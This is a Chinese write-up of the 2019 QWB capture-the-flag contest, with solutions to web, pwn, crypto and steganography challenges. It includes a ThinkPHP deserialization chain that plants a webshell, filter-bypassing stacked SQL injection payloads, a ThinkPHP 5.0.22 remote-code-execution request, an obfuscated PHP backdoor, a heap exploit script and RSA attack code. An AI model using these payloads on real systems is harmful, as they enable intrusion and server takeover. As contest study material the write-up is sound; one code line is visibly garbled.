

# 2019 强网杯
一年比一年难，虽然得到了三位大佬的助攻，还两度进入前24，到最后还是无缘决赛（为什么神仙这么可怕啊）。

## 签到

ctrl-C，ctrl-V，不解释

## upload

发现源码文件`www.tar.gz`，下载后解压。是一个基于 thinkphp5 的 web app，在 controller 里有四个文件，在`Index.php`中发现一个反序列化。

```php
$this->profile=unserialize(base64_decode($profile));
$this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
if(array_diff($this->profile_db,$this->profile)==null){
    return 1;
}else{
    return 0;
}
```

在 Register.php 里发现类析构函数，会调用`$this->checker->index()`函数。

```php
public function __destruct(){
    if(!$this->registed){
        $this->checker->index();
    }
}
```

在 Profile.php 中有一个`__call`的魔术方法，可以造成一个动态函数调用

```php
public function __call($name, $arguments){
    if($this->{$name}){
        $this->{$this->{$name}}($arguments);
    }
}
```

由此可以够造出一个完整的调用链，执行`upload_img()`函数，将上传的 png 文件重命名为 php 文件。

最后构造这样的 php 产生 payload，第一个坑点是我一开始没有写命名空间导致一直报错，直到队友把完整的题目环境搭起来，开了调试才发现问题。第二个是以为 php 报错中断之后不会析构，其实是由于没有命名空间，反序列化出来的一直是`__PHP_Incomplete_Class`，所以 PHP 报错中断之后也会执行析构函数。

```php
namespace app\web\controller;

class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;
    public $index;

    public function __construct()
    {
        $this->checker=null;
        $this->index = "upload_img";
        $this->upload_menu= "6f65da3924c6557308caff5b2801eed4";
        $this->ext = true;
        $this->filename_tmp = "../public/upload/6f65da3924c6557308caff5b2801eed4/0a7b8575f81e6d28645879810e6f43a9.png";
        $this->filename = "../public/upload/6f65da3924c6557308caff5b2801eed4/a.php";
    }
}

class Register
{
    public $checker;
    public $registed = false;

    public function __construct()
    {
        $this->checker=new Profile();
    }

}
$t = new Register();
$t = serialize($t);
echo urlencode(base64_encode($t));
```

关于 webshell，只需要在 PNG 头部与第一个 CHUNK 之间插入文本数据就可以绕过`getimagesize()`函数。


## 随便注

非常直接的 sql 注入，发现过滤了`select|update|delete|drop|insert|where|.`，尝试报错注入`1' and extractvalue(1,concat(0x7e,(database()),0x7e))+--+`可以输出一些信息，但是由于过滤的`select`都很难利用。

后来队友发现可以使用堆叠注入，而且`set`和`prepare`似乎被过滤，使堆叠注入的方向明确了起来。`strstr($inject, "set") && strstr($inject, "prepare")`，由于使用的是大小写敏感的 strstr，便可用大小写轻松绕过。最后的攻击流程是

```sql
#查询表名
;sEt @sql = concat('S','ELECT table_schema, table_name FROM information_schema',0x2e,'tables wh','ere table_schema = supersqli');Prepare stmt from @sql;execute stmt;--
#查询列名
;sEt @sql = concat('S','ELECT table_name, column_name FROM information_schema',0x2e,'columns wh','ere table_name = 1919810931114514');Prepare stmt from @sql;execute stmt;--
#打出flag
;sEt @sql = concat('S','ELECT flag,2 from `1919810931114514`');Prepare stmt from @sql;execute stmt;--
#
```


## 高明的黑客 Writeup

第一步先打开链接，发现一条文字，提示 `www.tar.gz` 文件是源码。于是从 `www.tar.gz` 下载好了源代码，打开一看，是近千个被混淆了的 php 文件。

首先从文件里发现，每个文件有许多 `$_GET.$_POST` 参数，还有很多 `system(),exec(),eval()` 等危险的函数。但是随便打开一个发现，这些函数里面的 参数不是在前面被置空了就是前面有些条件 `if("a" == "b")` 永远是 false 而无法执行。这时就需要动用脚本的力量了。由于文件太多，我们需要找到一个没有这些问题的隐藏的危险函数从而拿到 shell，所以就是脚本时间。因为有所有源码，所以跑脚本使用了本地的 web 服务器和 php。

```php
<?php

function matchPattern($pattern, $context) {
    if (mb_substr($pattern, 0, 1) == "" && mb_substr($context, 0, 1) == "")
        return true;
    if ('*' == mb_substr($pattern, 0, 1) && "" != mb_substr($pattern, 1, 1) && "" == mb_substr($context, 0, 1))
        return false;
    if (mb_substr($pattern, 0, 1) == mb_substr($context, 0, 1))
        return matchPattern(mb_substr($pattern, 1), mb_substr($context, 1));
    if (mb_substr($pattern, 0, 1) == "*")
        return matchPattern(mb_substr($pattern, 1), $context) || matchPattern($pattern, mb_substr($context, 1));
    return false;
}

$dir = "/path/to/local/webserver/";
$dirs = scandir($dir);
$cnt = 0;

unset($dirs[0], $dirs[1]);
foreach ($dirs as $k => $v) {
    if ($v == ".DS_Store") continue;
    $file = file_get_contents($dir . $v);
    echo "[" . microtime(true) . "] Processing " . $v . PHP_EOL;
    $line = explode("\n", $file);
    $post_arr = [];
    $get_arr = [];
    foreach ($line as $linek => $linev) {
        $linev = trim($linev);
        if (matchPattern('*$_GET[*\'*\'*]*', $linev) || matchPattern('*$_POST[*\'*\'*]*', $linev)) {
            //if(matchPattern('if*(*==*)', trim($line[$linek - 1]))) continue;
            $start = mb_strpos($linev, '$_');
            $word = mb_substr($linev, $start, (mb_strrpos($linev, "]") - $start + 1));
            $method = mb_strpos($word, '$_POST') !== false ? "post" : "get";
            if (mb_strpos($word, '\\\'') !== false) {
                $func = mb_substr($word, mb_strpos($word, '[\\\'') + 3, -3);
            } else {
                $func = mb_substr($word, mb_strpos($word, '[\'') + 2, -2);
            }
            echo "[".round(microtime(true), 2)."] ".strtoupper($method)."\t" . str_pad($func, 17, ' ', STR_PAD_RIGHT) . "\t=>\t" . $v . PHP_EOL;
            $value = 'echo "windowslinuxmac";';
            $cnt++;
            if($method == "post") {
                $post_arr[$func] = $value;
            } else {
                $get_arr[]=$func."=".urlencode($value);
            }
        }
    }
    $http["http"] = [
        'method' => 'POST',
        'header' => 'Content-Type: application/x-www-form-urlencoded; charset=utf-8',
        'content' => http_build_query($post_arr)
    ];
    //var_dump($http["http"]);
    $context = stream_context_create($http);
    $result = file_get_contents("http://localhost/web2/" . $v."?".implode("&", $get_arr), false, $context);
    //echo $result.PHP_EOL;
    if ($result === false) echo "请求失败！\n";
    else {
        if (mb_strpos($result, "windowslinuxmac") !== false) {
            echo "Found!!!\n";
            sleep(10);
        }
    }
}
echo "[cnt] " . $cnt . PHP_EOL;
```

大致思路就是：遍历每个文件，然后通过字符串截取函数截取出来每个文件里面的所有 `$_GET,$_POST` 等可以控制输入的参数。然后再将自己的标志字符串输出，并请求每个文件。如果有返回说明 shell 注入成功。

等待了大概几分钟，突然找到了一个文件 `xk0SzyKwfzw.php` 可以注入，于是又写了脚本单独对这个文件进行注入，以便确定是在文件哪里的注入。

```php
<?php

function matchPattern($pattern, $context) {
    if (mb_substr($pattern, 0, 1) == "" && mb_substr($context, 0, 1) == "")
        return true;
    if ('*' == mb_substr($pattern, 0, 1) && "" != mb_substr($pattern, 1, 1) && "" == mb_substr($context, 0, 1))
        return false;
    if (mb_substr($pattern, 0, 1) == mb_substr($context, 0, 1))
        return matchPattern(mb_substr($pattern, 1), mb_substr($context, 1));
    if (mb_substr($pattern, 0, 1) == "*")
        return matchPattern(mb_substr($pattern, 1), $context) || matchPattern($pattern, mb_substr($context, 1));
    return false;
}

$dir = "/path/to/local/webserver/";
$dirs = scandir($dir);
$cnt = 0;

$file = file_get_contents($dir . "xk0SzyKwfzw.php");
$line = explode("\n", $file);
foreach ($line as $linek => $linev) {
    $linev = trim($linev);
    if (matchPattern('*$_GET[*\'*\'*]*', $linev) || matchPattern('*$_POST[*\'*\'*]*', $linev)) {
        //if(matchPattern('if*(*==*)', trim($line[$linek - 1]))) continue;
        $start = mb_strpos($linev, '$_');
        $word = mb_substr($linev, $start, (mb_strrpos($linev, "]") - $start + 1));
        $method = mb_strpos($word, '$_POST') !== false ? "post" : "get";
        if (mb_strpos($word, '\\\'') !== false) {
            $func = mb_substr($word, mb_strpos($word, '[\\\'') + 3, -3);
        } else {
            $func = mb_substr($word, mb_strpos($word, '[\'') + 2, -2);
        }
        echo "[$method]\t" . str_pad($func, 17) . PHP_EOL;
        $value = 'echo "windowslinuxmac";';
        $cnt++;
        if ($method == "post") {
            $http["http"] = [
                'method' => strtoupper($method),
                'header' => 'Content-Type: application/x-www-form-urlencoded; charset=utf-8',
                'content' => http_build_query([
                    $func => $value
                ])
            ];
            //var_dump($http["http"]);
            $context = stream_context_create($http);
            $result = file_get_contents("http://localhost/web2/" . "xk0SzyKwfzw.php", false, $context);
            //echo "$result\n";
        } else {
            $result = file_get_contents("http://localhost/web2/" . "xk0SzyKwfzw.php" . "?" . $func . "=" . urlencode($value));
        }
        //echo $result.PHP_EOL;
        if ($result === false) echo "请求失败！\n";
        else {
            if (mb_strpos($result, "windowslinuxmac") !== false) {
                echo "Found!!!\n";
                sleep(10);
            }
        }
    }
}
echo "[cnt] " . $cnt . PHP_EOL;
```

找到发现在 300 行左右的这段代码是一个非常奇怪的拼接，然后拼成了 system 并执行。

```php
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX[0];
($kDxfM->gHht)($XnEGfa);
```

尝试使用 `$_GET['Efa5BVG']` 参数进行 shell 注入 `cat /flag`，成功。

```
http://117.78.60.139:32435/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag;
```


## 强网先锋-上单

找到网页之后看到`这个 5.0.22的二次开发版本由 Smity 独家赞助发布`，thinkphp 5.0.22，emmmmm，自带 RCE，直接构造`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`，拿到`flag{90226d3dd64b8dbddd602e18d8af8dbb}`。

## 强网先锋-辅助

给出 RSA 代码

```python
flag=open("flag","rb").read()

from Crypto.Util.number import getPrime,bytes_to_long
p=getPrime(1024)
q=getPrime(1024)
e=65537
n=p*q
m=bytes_to_long(flag)
c=pow(m,e,n)
print c,e,n

p=getPrime(1024)
e=65537
n=p*q
m=bytes_to_long("1"*32)
c=pow(m,e,n)
print c,e,n
```

发现`n1=p1*q`，`n2=p2*q`，那么`gcd(n1,n2) = q`，即可分别把两个 N 的 p，q 都算出来。写一个解密脚本

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5, PKCS1_OAEP
import gmpy2
from base64 import b64decode
n1 = ...
n2 = ...
p1 = gmpy2.gcd(n1, n2)
q1 = n1 / p1
e = 65537
phin = (p1 - 1) * (q1 - 1)
d = gmpy2.invert(e, phin)
cipher = ...
plain = gmpy2.powmod(cipher, d, n1)
plain = hex(plain)[2:]
if len(plain) % 2 != 0:
    plain = '0' + plain
print plain.decode('hex')
```

得到`flag{i_am_very_sad_233333333333}`

## 强网先锋-打野

一张 bmp 图片，使用 zsteg 爆破出来 LSB 隐写`b1,msb,bY: qwxf{you_say_chick_beautiful?}`

## 强网先锋-AP

泄漏 puts 地址，查找 libc 版本为`libc6_2.23-0ubuntu10_amd64`,然后打 one_gadget。

```python
#!/usr/bin/env python2

from pwn import *
#from FILE import *

#context.log_level = 'debug'
context.terminal = ['terminator', '-e']
context.arch = ['amd64','x86_32'][0]

filename = "./task_main"
glibc_version = '2.24'
address = {'address': '117.78.60.139', 'port': 30600}
elf = ELF(filename)
libc = ELF('/home/{}/libc.so.6'.format(glibc_version))
def attach(p, breaks=[]):
    if args['REMOTE']:
        return
    gdb.attach(p, '\n'.join(["b *%s"%(x,) for x in breaks]))
if args['REMOTE']:
    p = remote(address['address'], address['port'])
else:
    p = process([filename])

def GET(length,name):
    p.recvuntil(">>")
    p.sendline("1")
    p.recvuntil("name:")
    p.sendline(str(length))
    p.recvuntil("name:")
    p.sendline(str(name))

def OPEN(idx):
    p.recvuntil(">>")
    p.sendline("2")
    p.recvuntil("?")
    p.sendline(str(idx))
    p.recvuntil("!")
    p.recvuntil("\n")
    return p.recvuntil("\n")[:-1]


def CHANGE(idx,length,name):
    #p.interactive()
    p.recvuntil(">>")
    p.sendline("3")
    p.recvuntil("?")
    p.sendline(str(idx))
    p.recvuntil("name:")
    p.sendline(str(length))
    p.recvuntil("name:")
    p.send(str(name))

def main():
    GET(0x20,"A"*0x10)
    GET(0x20,"B"*0x10)
    CHANGE(0,0x80,p64(0xdeadbeefdeadbeef)*4+p64(0)+p64(0x21)+'\x68')
    puts_addr=u64(OPEN(1).ljust(8,'\x00'))  # 泄露PUTS
    libc_addr=puts_addr-0x06f690
    success("puts_addr: "+hex(puts_addr))
    success("libc_addr: "+hex(libc_addr))
    CHANGE(0,0x80,p64(0xdeadbeefdeadbeef)*4+p64(0)+p64(0x21)+p64(0)+p64(0x45216+libc_addr)) # one_gadget
    p.recvuntil(">>")
    p.sendline("2")
    p.sendline("1")

    attach(p)
    p.interactive()

if __name__ == '__main__':
    main()
```


## Random Study

Random study 共有四个阶段的题目。

- 初始阶段是告知 8 位随机字符串的 sha256 值，然后告知其中的前 5 位，给出整个字符串的 hex 值。
- 第一个阶段是根据当前时间的秒数随机种种子，然后生成随机数，在 200 次机会内填写正确。
- 第二个阶段是产生两个随机数，然后只有一次机会猜测第三个随机数。
- 第三个阶段是产生 32bit 的随机字符串，然后在 200 次机会内填写正确。

### 初始阶段

针对初始阶段，可以直接拿三字节随机数进行碰撞，代码：

```python
#建立连接
sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect(('119.3.245.36',23456))
#接收初始验证的内容
line1 = sock.recv(1024)
print(line1.decode())
line2 = sock.recv(1024)
#分割data获取skr的sha256
skr_sha256 = line2.decode().split('\n')[1].split('=')[1].strip()
#分割data获取skr的前5字节的hex值
skr_part1_hex = line2.decode().split('\n')[2].split('=')[1].strip()
#解析skr的数据
skr_part1 = bytes.fromhex(skr_part1_hex)
print(skr_part1)
#直接拿三个字节的随机数和skr_part1拼接碰撞sha256
while True:
    skr_part2 = os.urandom(3)
    skr_test = skr_part1 + skr_part2
    skr_test_sha256 = hashlib.sha256(skr_test).hexdigest()
    if skr_test_sha256 == skr_sha256:
        skr  = skr_test
        break
print(skr)
#将skr转换为16进制编码
skr_hex = codecs.encode(skr,'hex')
#发送结果
sock.send(skr_hex + b'\n')
```

### 第一阶段

针对第一个阶段，可以在连接服务器时在上下 100 秒内尝试种子是否正确，代码：

```python
#获取初始阶段的结束信息
line = sock.recv(1024)
print(line)
#发送teamtoken
teamtoken = b'71e9f731afee608322aa0928f44ac7ce'
sock.send(teamtoken + b'\n')
#实际连的时候有时候服务器会抽抽，所以就不断接受一直到第一阶段开始
while True:
    data = sock.recv(1024)
    print(data)
    if b'[+]Generating challenge 1' in data:
        break
#将初始时间设置为当前机器的100秒之前
time_start = int(time.time()) - 100
#逐秒往后碰撞，知道碰对
for i in range(200):
    time_assume = time_start + i
    random.seed(int(time.time()))
    for j in range(i+1):
        test = random.randint(0,2**64)
    print(test)
    sock.send(str(test).encode() + b'\n')
    data = sock.recv(1024)
    print(data)
    if b'[++++++++++++++++]challenge 1 completed[++++++++++++++++]' in data:
        print('[++++++++++++++++]challenge 1 completed[++++++++++++++++]')
        break
```

### 第二阶段

针对第二个阶段，在研究 Java 生成随机数原理后，了解了 nextInt 是通过线性同余来计算下一个种子的。于是可以利用 z3 进行线性约束，求出生成前两个随机数的种子，代码如下：

```python
def decrypt(value1,value2):
    solver = Solver()
    seed = BitVec('flag',48)
    nextseed = (seed*0x5DEECE66D +0xb).__and__((1<<48) - 1)
    one = nextseed.__rshift__(16)
    nextseed = (nextseed*0x5DEECE66D +0xb).__and__((1<<48) - 1)
    two = nextseed.__rshift__(16)
    solver.add(BV2Int(one) == value1)#1649034553)
    solver.add(BV2Int(two) == value2)#623604550)
    if solver.check() == sat:
        m = solver.model()
        return m[seed].as_long()
        print(m)
    else:
        return -1
        print('err')
```

利用线性同余计算出种子后，再使用 Java 来生成第三个随机数（由于 Pytho 中右移是和符号相关的，即 Python 中每右移一位就会除以 2，而 Java 随机数生成机制是与符号无关的，即 Java 生成随机数的右移操作会将内存中的数据直接进行右移操作，因此此处使用 Java 编写）

```java
public class Compute {
	public static void main(String[] args) {
	String seed_string = args[0];
        long seed = Long.valueOf(seed_string).longValue();
		long nextseed = (seed*25214903917L + 0xbL);
		nextseed = nextseed & ((1L << 48)-1);
		nextseed = (nextseed*0x5DEECE66DL + 0xbL) & ((1L << 48) - 1);
		nextseed = (nextseed*0x5DEECE66DL + 0xbL) & ((1L << 48) - 1);
		int three = (int)(nextseed >>> 16);
		System.out.println(three);
	}
}
```

随后，再使用 socket 发送生成结果：

```python
while True:
    data = sock.recv(1024)
    print(data.decode())
    if b'[-]' in data:
        break
if b'[+]failed\n' in data:
    data = sock.recv(1024)
    print(data.decode())
# data = sock.recv(1024)
# print(data)
while True:
    value1 = data.decode().split('[-]')[1].strip()
    value2 = data.decode().split('[-]')[2].strip()
    print('[*] Value1 :',value1)
    print('[*] Value2 :',value2)
    value1 = int(value1)
    value2 = int(value2)
    seed = decrypt(value1,value2)
    if seed != -1:
        break
    print('[*] Value3 failed.')
    sock.send(b'1\n')
    data = sock.recv(1024)
    print(data.decode())
    if b'[-]' not in data:
        data = sock.recv(1024)
        print(data.decode())
value3 = subprocess.check_output(["java","Compute",str(seed)]).strip()
print('[*] Value3:',value3)
sock.send(value3 + b'\n')
```

### 第三阶段

实际上，题目中第一关和第三关的随机数都是使用 Random 库进行生成的。而在第一关中已经种过一次种子，因此第一关通过的话直接拿来生成第三关的随机数就可以通过，代码如下：

```python
data = sock.recv(1024)
print(data.decode())
if b'[+]Generating challenge 3' not in data:
    data = sock.recv(1024)
    print(data.decod50-[e())
if b'[-]' not in data:
    data = sock.recv(1024)
    print(data.decode())
target_num = random.getrandbits(32)
target = str(target_num).encode()
while True:
    sock.send(target + b'\n')
    data = sock.recv(1024)
    print(data.decode())
    if b'[++++++++++++++++]challenge 3 completed[++++++++++++++++]' in data:
        break
    data = sock.recv(1024)
    print(data.decode())
data = sock.recv(1024)
print(data.decode())
```

代码运行效果：



## copperstudy

### 第一层

```python
[+]Generating challenge 1
[+]n=0x1d90f208855a9b3e908d441ce0bea855e71c21289aa09ffe17e0d88e0b338b4e3d88a99666c7dee13c6fd770c95ed441518433141ed56bfe0e4e76474a05c1147b40fb3d4f41d738671bcdb4a2239d8db5beec191c161034f68914e5d5b68d710c44b25dfd612cff0b8bd323d8418845c02ec856b89d5685b49681c274d2eefL
[+]e=3
[+]m=random.getrandbits(512)
[+]c=pow(m,e,n)=0x1c60163d0f766765b8b980dc9456326ecf184992ec2a424b8a69a7a66dd1ad1f3318b1e3bfafedff043b0d17700d99c5974d6672c69b5adee5d00517bf83819f12fd4b88ccc386749b40338f2c88b841a7b32e19f25d153acf4417814efc3613388a8696f38746282c20602cf08755aad494833fe439799a6b9635d70d46fd7L
[+]((m>>72)<<72)=0x28e38dd686922e7f55335b90d9569e87a7b6e2b74314944a19e68473335ae41c75cdf093a8c56d01d446636f4e2d4fe73ee235d476dddd000000000000000000L

[-]long_to_bytes(m).encode('hex')=
```

Coppersmith 已知部分明文攻击

```python
def matrix_overview(BB, bound):
    for ii in range(BB.dimensions()[0]):
        a = ('%02d ' % ii)
        for jj in range(BB.dimensions()[1]):
            a += '0' if BB[ii,jj] == 0 else 'X'
            a += ' '
        if BB[ii, ii] >= bound:
            a += '~'
        print a

def coppersmith_howgrave_univariate(pol, modulus, beta, mm, tt, XX):
    #
    # init
    #
    dd = pol.degree()
    nn = dd * mm + tt

    #
    # checks
    #
    if not 0 < beta <= 1:
        raise ValueError("beta should belongs in (0, 1]")

    if not pol.is_monic():
        raise ArithmeticError("Polynomial must be monic.")

    #
    # calculate bounds and display them
    #
    if debug:
        # t optimized?
        cond1 = RR(XX^(nn-1))
        cond2 = pow(modulus, beta*mm)

        # bound for X
        cond2 = RR(modulus^(((2*beta*mm)/(nn-1)) - ((dd*mm*(mm+1))/(nn*(nn-1)))) / 2)

        # solution possible?
        detL = RR(modulus^(dd * mm * (mm + 1) / 2) * XX^(nn * (nn - 1) / 2))
        cond1 = RR(2^((nn - 1)/4) * detL^(1/nn))
        cond2 = RR(modulus^(beta*mm) / sqrt(nn))
        # warning about X

    #
    # Coppersmith revisited algo for univariate
    #
    # change ring of pol and x
    polZ = pol.change_ring(ZZ)
    x = polZ.parent().gen()

    # compute polynomials
    gg = []
    for ii in range(mm):
        for jj in range(dd):
            gg.append((x * XX)**jj * modulus**(mm - ii) * polZ(x * XX)**ii)
    for ii in range(tt):
        gg.append((x * XX)**ii * polZ(x * XX)**mm)

    # construct lattice B
    BB = Matrix(ZZ, nn)

    for ii in range(nn):
        for jj in range(ii+1):
            BB[ii, jj] = gg[ii][jj]

    # display basis matrix
    if debug:
        matrix_overview(BB, modulus^mm)

    # LLL
    BB = BB.LLL()

    # transform shortest vector in polynomial
    new_pol = 0
    for ii in range(nn):
        new_pol += x**ii * BB[0, ii] / XX**ii

    # factor polynomial
    potential_roots = new_pol.roots()
    print "potential roots:", potential_roots

    # test roots
    roots = []
    for root in potential_roots:
        if root[0].is_integer():
            result = polZ(ZZ(root[0]))
            if gcd(modulus, result) >= modulus^beta:
                roots.append(ZZ(root[0]))

    #
    return roots
length_N = 512  # size of the modulus
Kbits = 64      # size of the root
e = 65537

# RSA gen (for the demo)
N =0x8cacfeb65d0e95a3f9bc0bf77763c5cc93ed49c8f70644dfdca3031047635122980740d506055f31a5e82930e33d91c0ac2a5440e6579da1f0ce96602fa2fbe557a160e008f05e8d480558b615429194157caf3678ee2d1f21250ea45b34e02aba8e3981de882383e60bce8e8155fa6117bd7c949176c679fcf665eb94e3adb
ZmodN = Zmod(N);

# Create problem (for the demo)
K = ZZ.random_element(0, 2^Kbits)
Kdigits = K.digits(2)
C = 0x76eceaf4109b64fa85c7e8fbf47319d48ab965c2ab22e05212f73c4cdc441e80328cb048c5b5db0327e8ef18b17a9e28ec059efe10691d8a34cee18b3f51dbc865d92c9c0f49981ce6254420f53e9b9064621328dd4e3ea317d13c0e5b28099dab4a7e8497b4fcb8d1735ce8d8bd2589c8bd95aaf5cf5751796a59cfd1f0113

# Problem to equation (default)
P.<x> = PolynomialRing(ZmodN) #, implementation='NTL')

pol = ( 7327252114503947508269325471363173220565465408364019550637516047539954866291850283298359927561303018712792763600801471488538723937511693943848975527313408 + x)^e - C
dd = pol.degree()

# Tweak those
beta = 1                                # b = N
epsilon = beta / 7                      # <= beta / 7
mm = ceil(beta**2 / (dd * epsilon))     # optimized value
tt = floor(dd * mm * ((1/beta) - 1))    # optimized value
XX = ceil(N**((beta**2/dd) - epsilon))  # optimized value

# Coppersmith

roots = coppersmith_howgrave_univariate(pol, N, beta, mm, tt, XX)

# output
print "\n# Solutions"
print "we want to find:",str(K)
print "we found:", str(roots)
print "\n"
```

### 第二层

```python
[+]Generating challenge 2
[+]n=0x8cacfeb65d0e95a3f9bc0bf77763c5cc93ed49c8f70644dfdca3031047635122980740d506055f31a5e82930e33d91c0ac2a5440e6579da1f0ce96602fa2fbe557a160e008f05e8d480558b615429194157caf3678ee2d1f21250ea45b34e02aba8e3981de882383e60bce8e8155fa6117bd7c949176c679fcf665eb94e3adbL
[+]e=65537
[+]m=random.getrandbits(512)
[+]c=pow(m,e,n)=0x76eceaf4109b64fa85c7e8fbf47319d48ab965c2ab22e05212f73c4cdc441e80328cb048c5b5db0327e8ef18b17a9e28ec059efe10691d8a34cee18b3f51dbc865d92c9c0f49981ce6254420f53e9b9064621328dd4e3ea317d13c0e5b28099dab4a7e8497b4fcb8d1735ce8d8bd2589c8bd95aaf5cf5751796a59cfd1f0113L
[+]((p>>128)<<128)=0x8be6dcbed09bcf80bfb3f3bdfe79b92ab0404dd334036c8c79bfc857af2b679debf7b670e0f66a39791ba6c6175c427a00000000000000000000000000000000L
[-]long_to_bytes(m).encode('hex')=
```

Factoring with High Bits Known，当我们知道一个公钥中模数 N 的一个因子的较高位时，我们就有一定几率来分解 N。

```python
n = 0x8cacfeb65d0e95a3f9bc0bf77763c5cc93ed49c8f70644dfdca3031047635122980740d506055f31a5e82930e33d91c0ac2a5440e6579da1f0ce96602fa2fbe557a160e008f05e8d480558b615429194157caf3678ee2d1f21250ea45b34e02aba8e3981de882383e60bce8e8155fa6117bd7c949176c679fcf665eb94e3adb
p4 =0x8be6dcbed09bcf80bfb3f3bdfe79b92ab0404dd334036c8c79bfc857af2b679debf7b670e0f66a39791ba6c6175c427a
cipher = 0x76eceaf4109b64fa85c7e8fbf47319d48ab965c2ab22e05212f73c4cdc441e80328cb048c5b5db0327e8ef18b17a9e28ec059efe10691d8a34cee18b3f51dbc865d92c9c0f49981ce6254420f53e9b9064621328dd4e3ea317d13c0e5b28099dab4a7e8497b4fcb8d1735ce8d8bd2589c8bd95aaf5cf5751796a59cfd1f0113
e2 = 65537
pbits = 512
kbits = pbits - p4.nbits()
#kbits = 1024
print p4.nbits()
print kbits
p4 = p4 << kbits
PR.<x> = PolynomialRing(Zmod(n))
f = x + p4
roots = f.small_roots(X=2^kbits, beta=0.5)
print roots
if roots:
   p = p4+int(roots[0])
   print "p: ", hex(int(p))
   assert n % p == 0
   q = n/int(p)
   print "q: ", hex(int(q))
   print gcd(p,q)
   phin = (p-1)*(q-1)
   print gcd(e2,phin)
   d = inverse_mod(e2,phin)
   flag = pow(cipher,d,n)
   print  hex(int(flag))
```

### 第三层

```python
[+]Generating challenge 3
[+]n=0x643d2d81c926b51179c5ded27e7bca2eea2acc2ed2c337186d344bc941b9a09b058e19e871b893e9c6845206d6f4921277b14efedee3a641029eeba0caf32d44390e2f7324c20bba12a0fec948922a5853d807b20c1166057d54232e1ab62191ac97bf7d497e69a0eee1a53e8a6b0e274af2a90e5c7e2134fbc7b3e6d7dce601L
[+]e=3
[+]m=random.getrandbits(512)
[+]c=pow(m,e,n)=0x601f9a3d84b9edd609c3563fbd50c4f43f41f1da78ed615afc5e911bcc8c2145c715f838fd5aa15d5dee1ca39c18a8c63ef395e0d89de9fb3d3bd0d6656c6b76f65f1f5c33733d30e126e441fd4ca533916429c859a1e546371e1b52bd6e7bcc6515a3c255bf2b90be66256a8c2b83339a1d2f04a3d12577cc2c84a3432f89bdL
[+]d=invmod(e,(p-1)*(q-1))
[+]d&((1<<512)-1)=0x9ecc17505fbf9d62b687888b52421ecdb844fc352b64d8303ba41b04039536140eb6d0c55ce9fe2b5ec8ed262869f36c482a25efd8b9e400fe9fdc090455f92bL
[-]long_to_bytes(m).encode('hex')=
```

Partial Key Exposure Attack(部分私钥暴露攻击)，若 e 较小，已知 d 的低位

```python
def partial_p(p0, kbits, n):
    PR.<x> = PolynomialRing(Zmod(n))
    nbits = 1024

    f = 2^kbits*x + p0
    f = f.monic()
    roots = f.small_roots(X=2^(nbits//2-kbits), beta=0.2)  # find root < 2^(nbits//2-kbits) with factor >= n^0.3
    if roots:
        x0 = roots[0]
        p = gcd(2^kbits*x0 + p0, n)
        return ZZ(p)

def find_p(d0, kbits, e, n):
    X = var('X')

    for k in xrange(1, e+1):
        results = solve_mod([e*d0*X - k*X*(n-X+1) + k*n == X], 2^kbits)
        for x in results:
            p0 = ZZ(x[0])
            p = partial_p(p0, kbits, n)
            if p:
                return p


if __name__ == '__main__':
    n = 0x00643d2d81c926b51179c5ded27e7bca2eea2acc2ed2c337186d344bc941b9a09b058e19e871b893e9c6845206d6f4921277b14efedee3a641029eeba0caf32d44390e2f7324c20bba12a0fec948922a5853d807b20c1166057d54232e1ab62191ac97bf7d497e69a0eee1a53e8a6b0e274af2a90e5c7e2134fbc7b3e6d7dce601
    e = 3
    cipher = 0x601f9a3d84b9edd609c3563fbd50c4f43f41f1da78ed615afc5e911bcc8c2145c715f838fd5aa15d5dee1ca39c18a8c63ef395e0d89de9fb3d3bd0d6656c6b76f65f1f5c33733d30e126e441fd4ca533916429c859a1e546371e1b52bd6e7bcc6515a3c255bf2b90be66256a8c2b83339a1d2f04a3d12577cc2c84a3432f89bd
    #d = 0x9ecc17505fbf9d62b687888b52421ecdb844fc352b64d8303ba41b04039536140eb6d0c55ce9fe2b5ec8ed262869f36c482a25efd8b9e400fe9fdc090455f92b
    beta = 0.5
    epsilon = beta^2/7

    nbits = n.nbits()
